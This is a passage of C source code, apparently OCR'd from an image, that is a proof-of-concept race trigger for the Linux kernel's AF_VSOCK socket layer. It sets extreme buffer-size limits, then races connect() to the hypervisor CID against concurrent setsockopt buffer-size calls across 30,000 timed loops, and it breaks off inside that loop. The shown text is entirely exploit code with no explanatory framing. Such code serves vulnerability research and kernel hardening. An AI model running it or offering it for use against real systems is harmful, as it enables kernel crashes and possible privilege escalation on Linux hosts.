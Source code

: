         addr.svm_cid = VMADDR_CID_HYPERVISOR;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

        return NULL;
    }

    void *th_setsockopt(void *arg)
    {
        int ret = -1;
        long lag_nsec = *((long *)arg) * 1000;
        struct timespec tp;
        unsigned long size = 0;

        ret = thread_sync(lag_nsec);
        if (ret != EXIT_SUCCESS) {
            tfail++;
            return NULL;
        }

        clock_gettime(CLOCK_MONOTONIC, &tp);
        size = tp.tv_nsec;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
                            &size, sizeof(unsigned long));

        return NULL;
    }

    int main(void)
    {
        int ret = -1;
        unsigned long size = 0;
        long loop = 0;
        pthread_t th[2] = { 0 };

        vsock = socket(AF_VSOCK, SOCK_STREAM, 0);
        if (vsock == -1)
            err_exit("[-] open vsock");

        printf("[+] AF_VSOCK socket is opened\n");

        size = 1;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MIN_SIZE,
                            &size, sizeof(unsigned long));
        size = 0xfffffffffffffffdlu;
        setsockopt(vsock, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MAX_SIZE,
                            &size, sizeof(unsigned long));

        ret = pthread_barrier_init(&barrier, NULL, 2);
        if (ret != 0)
            err_exit("[-] pthread_barrier_init");

        for (loop = 0; loop < 30000; loop++) {
            long tmo1 = 0;
            long tmo2 = loop % MAX_RACE_LAG_USEC;

            printf("race loop %ld: tmo1 %ld, tmo2 %ld\n", loop, tmo1, tmo2);
